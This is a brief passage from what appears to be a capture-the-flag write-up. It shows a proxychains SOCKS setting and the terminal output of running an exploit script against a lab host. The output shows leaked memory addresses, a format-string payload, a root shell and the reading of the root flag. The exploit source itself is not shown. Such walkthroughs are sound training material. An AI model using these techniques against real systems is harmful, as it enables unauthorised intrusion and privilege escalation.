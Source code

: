 We can now run our exploit script against it using proxychains after adding a line at the bottom of our proxychains configuration.

```
socks5      127.0.0.1 1080
```

After the exploit completes we send a newline by pressing enter and are able to grab the rootflag.

```
$ proxychains python2 exploit.py
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[+] Opening connection to 192.168.254.3 on port 8989: Done
[*] pie base: 0x55e87f466000
[*] libcbase: 0x7fca3770e000
[*] stack leak: 0x7ffe652d3f68
[*] Switching to interactive mode
										
										
										
										
										
										
										
										
																																	_aaal>-e\xfe\x7f[!] ERR reading /opt/easyrsa/clients/%1337c%10$>-e\xfe\x7f.!

print->CN=$
$ id
uid=0(root) gid=33(www-data) groups=33(www-data)
$ wc -c /root/root.txt
33 /root/root.txt
$
```